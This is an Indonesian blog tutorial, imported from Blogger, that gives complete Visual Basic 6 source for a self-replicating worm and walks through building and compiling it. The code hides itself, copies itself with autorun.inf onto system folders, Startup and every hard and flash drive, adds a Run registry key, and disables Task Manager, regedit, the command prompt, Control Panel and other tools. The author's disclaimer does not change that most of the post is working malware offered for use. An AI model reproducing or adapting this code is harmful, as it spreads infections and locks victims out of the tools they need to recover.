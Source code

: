 +++
title = "Cara Membuat Virus (Source Code Virus)"
date = 2012-03-15T13:59:00Z
updated = 2012-03-15T14:13:40Z
tags = ["Bahasa Pemrograman", "Tips dan Trick"]
blogimport = true 
[author]
	name = "Rifky Fuady"
	uri = "https://plus.google.com/101982203483309256996"
+++

<div <br="" align="justify"><div class="separator" style="clear: both; text-align: center;"><a href="http://2.bp.blogspot.com/-KrholgsgGh8/T2GWPaKBZWI/AAAAAAAAAQA/Ct9WNZ88auI/s1600/Untitled.jpg" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="236" src="http://2.bp.blogspot.com/-KrholgsgGh8/T2GWPaKBZWI/AAAAAAAAAQA/Ct9WNZ88auI/s320/Untitled.jpg" width="320" /></a></div><div class="separator" style="clear: both; text-align: center;"><br /></div>Kali ini saya akan berbagi Source Code Virus buatan saya yang ditulis dengan Bahasa Visual Basic, saya sudah mencobanya dulu waktu masih awal-awal belajar Visual Basic. Dan saya juga minta maaf kepada teman-teman saya dan semua orang yang pernah menjadi korban kejahilan saya dulu waktu masih coba-coba dengan Source Code ini. <br />Saya waktu itu masih khilaf... <br />hehehehe... maafin saya ya...??? </div><div <br="" align="justify"><br /></div><div <br="" align="justify">Source Code ini saya tulis di blog saya bukan berarti mengajari orang yang membaca untuk membuat virus dan menjahili orang lain, tapi untuk tujuan agar bisa belajar tentang Bahasa Visual Basic dan Struktur Virus itu di buat. Ini saya juga menggunakan bantuan spoiler agar lebih mudah dalam membacanya. </div><br />Oke. Sekarang kita mulai belajarnya....!!! <br />Kita mulai dengan membuka Program Visual Basic nya, buat <b>New Project - Standart EXE</b>   <br />Kemudian buatlah rancangan Form nya seperti gambar dibawah : <br /><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Rancangan Form</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;"><div class="separator" style="clear: both; text-align: center;"><a href="http://3.bp.blogspot.com/-mxxWzAX3rxs/T2GLTpL5e5I/AAAAAAAAAPg/fqasEUcdqnY/s1600/label1.jpg" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="92" src="http://3.bp.blogspot.com/-mxxWzAX3rxs/T2GLTpL5e5I/AAAAAAAAAPg/fqasEUcdqnY/s320/label1.jpg" width="173" /></a></div><br /><br /><br /><center>Tampilan form dengan penggunaan satu label.</center> </div></div></div>Pengaturan pada Project explorer dan Project Properties seperti gambar di bawah : <br /><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Pengaturan Project</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;"><div class="separator" style="clear: both; text-align: center;"><a href="http://1.bp.blogspot.com/-v84SypWI_xY/T2GMaktjuRI/AAAAAAAAAPs/nrwVhjFeWJ4/s1600/pro.jpg" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="320" src="http://1.bp.blogspot.com/-v84SypWI_xY/T2GMaktjuRI/AAAAAAAAAPs/nrwVhjFeWJ4/s320/pro.jpg" width="213" /></a></div><br /><br /><br /><center>Penamaan project, file, form, module pada Project Explorer dan caption pada Properties</center> </div></div></div>Gunakan Control Timer untuk mendukung proses penyebaran seperti gambar di bawah : <br /><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Penggunaan Control Timer</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;"><div class="separator" style="clear: both; text-align: center;"><a href="http://1.bp.blogspot.com/-dyBL1Mavlks/T2GNrKfdIpI/AAAAAAAAAP4/ZnVXYT99osU/s1600/timer.jpg" imageanchor="1" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="135" src="http://1.bp.blogspot.com/-dyBL1Mavlks/T2GNrKfdIpI/AAAAAAAAAP4/ZnVXYT99osU/s320/timer.jpg" width="320" /></a></div><br /><br /><br /><center>Penggunaan Timer Untuk Mendukung Proses Penggandaan File dan Penyebaran Melalui Flash Disk</center> </div></div></div><br />Kemudian masukkan Source Code dibawah ini pada <b>Form dan Control Timer</b>:     <br /><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Code pada Form</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Private Sub Form_Load() <br />App.TaskVisible = False <br />Main <br />End Sub  </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Code pada Control Timer</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Private Sub Timer1_Timer() <br />Label1.Caption = Time() <br />InfeksiDriveRemovable <br />End Sub  </div></div></div><br />Kemudian Buatlah Modul, <b>Project - Add Module</b>  <br /><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 1</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function CopyFile Lib "kernel32" Alias "CopyFileA" _ <br />(ByVal lpExistingFileName As String, ByVal lpNewFileName As String, _ <br />ByVal bFailIfExists As Long) As Long     </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 2</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function SHGetSpecialFolderLocation Lib "shell32.dll" _ <br />ByVal hwndOwner As Long, ByVal nFolder As Long, pidl As ITEMIDLIST) _ <br />As Long    </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 3</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function SHGetPathFromIDList Lib "shell32.dll" _ <br />Alias "SHGetPathFromIDListA" _ <br />(ByVal pidl As Long, ByVal pszPath As String) _ <br />As Long  </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 4</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function GetSystemDirectory Lib "kernel32.dll" _ <br />Alias "GetSystemDirectoryA" _ <br />(ByVal lpBuffer As String, ByVal nSize As Long) _ <br />As Long  </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 5</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function GetWindowsDirectory Lib "kernel32.dll" _ <br />Alias "GetWindowsDirectoryA" _ <br />(ByVal lpBuffer As String, ByVal nSize As Long) _ <br />As Long  </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 6</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function GetDriveType Lib "kernel32" Alias "GetDriveTypeA" _ <br />(ByVal nDrive As String) _ <br />As Long  </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 7</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function SetFileAttributes Lib "kernel32" Alias "SetFileAttributesA" _ <br />(ByVal lpFileName As String, ByVal dwFileAttributes As Long) _ <br />As Long    </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 8</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Declare Function GetFileAttributes Lib "kernel32" _ <br />Alias "GetFileAttributesA" _ <br />(ByVal lpFileName As String) As Long <br />Public Type SHITEMID <br />Ned As Long <br />Jun As Byte <br />End Type <br />Public Type ITEMIDLIST <br />Uned As SHITEMID <br />End Type <br />Enum SFolder <br />CSIDL_STARTUP = &amp;H7 <br />End Enum <br />Public Const FILE_ATTRIBUTE_READONLY = &amp;H1 <br />Public Const FILE_ATTRIBUTE_HIDDEN = &amp;H2    </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 9</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Sub Main() <br />On Error Resume Next <br />InfeksiFolderSistem <br />InfeksiDriveRemovable <br />AturAtributFile <br />InfeksiRegistry <br />End Sub   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 10</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function GetFileSumber() As String <br />On Error Resume Next <br />GetFileSumber = App.Path &amp; "\" &amp; App.EXEName &amp; ".exe" <br />End Function   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 11</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function GetSpecialfolder(JenisFolder As SFolder) As String <br />Dim Jun1 As Long, IDL As ITEMIDLIST <br />Jun1 = SHGetSpecialFolderLocation(100, JenisFolder, IDL) <br />If Jun1 = NOERROR Then <br />Path$ = Space$(512) <br />Jun1 = SHGetPathFromIDList(ByVal IDL.Uned.Ned, ByVal Path$) <br />GetSpecialfolder = Left$(Path, InStr(Path, Chr$(0)) - 1) &amp; "\" <br />Exit Function <br />End If <br />GetSpecialfolder = "" <br />End Function   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 12</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function GetSystemPath() As String <br />On Error Resume Next <br />Dim Buffer As String * 255, Ned1 As Long <br />Ned1 = GetSystemDirectory(Buffer, 255) <br />GetSystemPath = Left(Buffer, Ned1) &amp; "\" <br />End Function   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 13</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function GetWindowsPath() As String <br />On Error Resume Next <br />Dim Buffer As String * 255, Ned1 As Long <br />Ned1 = GetWindowsDirectory(Buffer, 255) <br />GetWindowsPath = Left(Buffer, Ned1) &amp; "\" <br />End Function   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 14</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function InfeksiFolderSistem() As String <br />On Error Resume Next <br />'-- menggandakan file virus <br />CopyFile GetFileSumber, GetWindowsPath &amp; "VirusFuady.exe", 0 <br />CopyFile GetFileSumber, GetSystemPath &amp; "VirusFuady.exe", 0 <br />CopyFile GetFileSumber, GetSpecialfolder(CSIDL_STARTUP) &amp; _ <br />"VirusFuady.exe", 0 <br />'-- menggandakan file autorun <br />CopyFile App.Path &amp; "\" &amp; "autorun.inf", GetWindowsPath &amp; "autorun.inf", 0 <br />CopyFile App.Path &amp; "\" &amp; "autorun.inf", GetSystemPath &amp; "autorun.inf", 0 <br />CopyFile App.Path &amp; "\" &amp; "autorun.inf", GetSpecialfolder(CSIDL_STARTUP) &amp; _ <br />"autorun.inf", 0 <br />End Function    </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 15</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function InfeksiDriveRemovable() As String <br />Dim DriveAscii As Integer, DriveHuruf As String <br />DriveHuruf = "" <br />For DriveAscii = 66 To 90 <br />DriveHuruf = Chr(DriveAscii) &amp; ":\" <br />If GetDriveType(DriveHuruf) = 3 Or GetDriveType(DriveHuruf) = 2 Then <br />'-- Type drive 3 = Hardisk, 2 = Flash Disk <br />'-- menggandakan file virus <br />CopyFile GetFileSumber, DriveHuruf &amp; "VirusFuady.exe", 0 <br />'-- menggandakan file autorun <br />CopyFile App.Path &amp; "\" &amp; "autorun.inf", DriveHuruf &amp; "autorun.inf", 0 <br />End If <br />Next <br />End Function   </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 16</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function AturAtributFile() As String <br />Dim DriveAscii As Integer, DriveHuruf As String <br />DriveHuruf = "" <br />For DriveAscii = 66 To 90 <br />DriveHuruf = Chr(DriveAscii) &amp; ":\" <br />If GetDriveType(DriveHuruf) = 3 Or GetDriveType(DriveHuruf) = 2 Then <br />'Type drive 3 = Hardisk, 2 = Flash Disk <br />SetFileAttributes DriveHuruf &amp; "VirusFuady.exe", _ <br />FILE_ATTRIBUTE_HIDDEN Or FILE_ATTRIBUTE_READONLY <br />End If <br />Next <br />SetFileAttributes GetWindowsPath &amp; "VirusFuady.exe", _ <br />FILE_ATTRIBUTE_HIDDEN Or FILE_ATTRIBUTE_READONLY <br />SetFileAttributes GetSystemPath &amp; "VirusFuady.exe", _ <br />FILE_ATTRIBUTE_HIDDEN Or FILE_ATTRIBUTE_READONLY <br />SetFileAttributes GetSpecialfolder(CSIDL_STARTUP) &amp; _ <br />"VirusFuady.exe", FILE_ATTRIBUTE_HIDDEN Or _ <br />FILE_ATTRIBUTE_READONLY <br />End Function    </div></div></div><div style="margin: 5px 20px 20px;"><div class="smallfont" style="margin-bottom: 2px;"><b>Modul 17</b>: <input onclick="if (this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display != '') { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = ''; this.innerText = ''; this.value = 'Close'; } else { this.parentNode.parentNode.getElementsByTagName('div')[1].getElementsByTagName('div')[0].style.display = 'none'; this.innerText = ''; this.value = 'Open'; }" style="font-size: 11px; margin: 0px; padding: 0px; width: 55px;" type="button" value="Open" /></div><div class="alt2" style="border: 1px inset; margin: 0px; padding: 6px;"><div style="display: none;">Public Function InfeksiRegistry() <br />Dim WShell As Object, RG1 As String, RG2 As String <br />Dim RG3 As String, RG4 As String <br />RG1 = "Software\Microsoft\Windows\CurrentVersion\" <br />RG2 = "SOFTWARE\Microsoft\Windows NT\CurrentVersion\" <br />RG3 = "Software\Microsoft\Internet Explorer\Main\" <br />RG4 = "Software\Policies\Microsoft\Windows\system\" <br />Set WShell = CreateObject("WScript.Shell") <br />'-- merubah registered owner windows <br />WShell.Regwrite "HKLM\" &amp; RG2 &amp; "\RegisteredOwner", "Virus" <br />'-- merubah registered organization windows <br />WShell.Regwrite "HKLM\" &amp; RG2 &amp; "\RegisteredOrganization", "Rekayasa" <br />'-- merubah Title Internet Explorer <br />WShell.Regwrite "HKCU\" &amp; RG3 &amp; "\Window Title", "::Rakayasa::Virus::" <br />'-- mengaktifkan virus pada saat setiap starup sistem <br />WShell.Regwrite "HKLM\" &amp; RG1 &amp; "\Run\RekayasaVirus", _ <br />GetWindowsPath &amp; "RekayasaVirus.exe" <br />'-- blokir command prompt <br />WShell.Regwrite "HKCU\" &amp; RG4 &amp; "DisableCMD", _ <br />"1", "REG_DWORD" <br />'-- blokir task manager <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\System\DisableTaskMgr", _ <br />"1", "REG_DWORD" <br />'-- blokir regedit <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\System\DisableRegistryTools", _ <br />"1", "REG_DWORD" <br />'-- blokir msconfig <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\System\DisableMsConfig", _ <br />"1", "REG_DWORD" <br />'-- advanced hidden <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Advanced\Hidden", "0", "REG_DWORD" <br />'-- blokir fasilitas run <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoRun", _ <br />"1", "REG_DWORD" <br />'-- blokir fasilitas pencarian <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoFind", _ <br />"1", "REG_DWORD" <br />'-- blokir fasilitas pengaturan folder <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoFolderOptions", _ <br />"1", "REG_DWORD" <br />'-- blokir fasilitas-fasilitas lainnya <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoClose", _ <br />"1", "REG_DWORD" <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoControlPanel", _ <br />"1", "REG_DWORD" <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoViewContextMenu", _ <br />"1", "REG_DWORD" <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoStartMenuMorePrograms", _ <br />"1", "REG_DWORD" <br />WShell.Regwrite "HKCU\" &amp; RG1 &amp; "Policies\Explorer\NoViewOnDrive", _ <br />"1", "REG_DWORD" <br />Set WShell = Nothing <br />End Function    </div></div></div><div <br="" align="justify">Didalam setiap form dan modul ini terdapat perintah-perintah dan fungsi-fungsi yang saling terkait dan menunjang.  Setelah semuanya dibuat, Program ini akan dapat berjalan setelah dilakukan kompilasi menjadi file executable dengan perintah menu compilasi pada Visual basic,  <br /><br /><br /><br /><center> <b>File - make Virus Fuady.exe</b> </center><br />Kemudian anda bisa melihat sendiri hasilnya. Jangan dipakai buat menjahili orang lain yah??? <br /><br />Sekian dulu tutorial dari saya. <b>Semoga bermanfaat... </b></div>
